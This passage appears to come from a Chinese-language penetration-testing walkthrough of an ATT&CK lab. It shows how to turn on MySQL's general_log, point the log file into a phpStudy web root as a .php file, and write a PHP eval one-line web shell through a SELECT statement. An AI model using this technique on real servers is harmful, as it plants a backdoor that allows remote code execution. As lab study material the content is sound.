 4. 若general_log为OFF，则修改这个值，开启日志保存
   
   ```sql
   set global general_log='on';
   ```

5. 修改日志保存的路径(general_log_file值)
   
   ```sql
   SET global general_log_file='C:/phpStudy/WWW/2.php'
   ```

6. 查询是否成功更改
   
   ```sql
   show variables like '%general%'
   ```
   
   ![6.png](img/ATT&CK/ATT&CK1/2/6.png)

7. 执行SQL语句写入一句话木马
   
   ```sql
   SELECT '<?php @eval($_POST[1]);?>';
   ```
   